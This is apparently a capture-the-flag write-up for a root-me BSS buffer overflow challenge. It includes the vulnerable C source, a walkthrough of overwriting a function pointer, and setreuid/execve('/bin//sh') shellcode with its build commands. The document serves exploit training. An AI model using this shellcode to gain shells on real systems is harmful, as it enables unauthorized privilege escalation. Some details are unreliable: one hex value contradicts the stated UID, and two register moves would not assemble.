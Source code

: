 
# ELF x86 - BSS buffer overflow

[Task link](https://www.root-me.org/en/Challenges/App-System/ELF-x86-BSS-buffer-overflow)

Solved: @novitoll, @Thatskriptkid

### Source

```c
    #include <stdio.h>
    #include <stdlib.h>
     
    char username[512] = {1};
    void (*_atexit)(int) =  exit;
     
    void cp_username(char *name, const char *arg)
    {
      while((*(name++) = *(arg++)));
      *name = 0;
    }
     
    int main(int argc, char **argv)
    {
      if(argc != 2)
        {
          printf("[-] Usage : %s <username>\n", argv[0]);
          exit(0);
        }
       
      cp_username(username, argv[1]);
      printf("[+] Running program with username : %s\n", username);
       
      _atexit(0);
      return 0;
    }

```

Vuln: BoF on `username` 512-byte which is located in `.bss` section. Overflow username, smash `_atexit` ptr to point back to username buffer where we put our payload.
Note: Most of exploits you will find for this challenge are not valid anymore as your shellcode requires the change in order to run in proper UID, GID if you use [sys_setreuid16](https://syscalls.kernelgrok.com/) syscall which you can trigger via `0x46 $eax`.

### Walkthrough

`username` is located in `$ebx+0x40` which has 512 bytes (0x200) buffer:

![username](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/2.png)

and then after `$ebx+0x40+0x200` there is `_atexit` which has rvalue pointing to `exit@plt`.

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/3.png)

Let's run it with 512 "A" and "B" to fill `username` buffer and override `_atexit` with "B"s. And put the breakpoint on `0x080484f1 call   0x8048466 <cp_username>`

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/4.png)

and we can see that we control the `_atexit` ptr which goes right after our username buffer:

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/5.png)


### Shellcode

We can use this shellcode as NX-bit is disabled for us. However, we need to modify it in order to run with right UID (1207), GID (1107):

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/6.png)

For that let's take the original shellcode and create a `shellcode.nasm` and modify it. As you can see in original shellcode, it's used for getting root user `uid=0, gid=0`, so that XOR-ing `ebx, ecx` registers is enough for that and pushing to `eax 0x46` (setreuid syscall) and triggering it via `int 0x80` works.

```
  "\x6a\x46"			// push   $0x46
  "\x58"			// pop    %eax
  "\x31\xdb"			// xor	  %ebx, %ebx
  "\x31\xc9"			// xor	  %ecx, %ecx
  "\xcd\x80"			// int    $0x80
```

Now, our UID is 1207 (0x457), it's 2 bytes. If we put it to `ebx, ecx` registers which are *4 bytes* we will get extra 2 `0x00` bytes padding per each register, which will make our shellcode invalid. So we can use `bx, cx` registers which are 2-bytes and make it work. You can even split it to `bh, bl` (1-byte) into 2 instructions, but in our case `bx, cx` regs. are fine.

Here is our shellcode:

```
section .text

global _start

_start:
        push   0x46
        pop    eax
        mov    bx, 0x4b7
        mov    cx, 0x453
        int    0x80

        xor    edx, edx
        push   0xb
        pop    eax
        push   edx
        push   0x68732f2f
        push   0x6e69622f
        mov    bx, esp
        push   edx
        push   ebx
        mov    cx, esp
        int    0x80
```

Now create the object, make ELF executable, takes the opcodes from objdump and get the shellcode string via [this online disassembly tool](https://defuse.ca/online-x86-assembler.htm#disassembly2):

```
$ nasm -f elf -o shellcode.o shellcode.nasm
$ ld -m elf_i386 -o shellcode shellcode.o
$ objdump -d shellcode
```

And now you can PWN!

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/pwn.png)

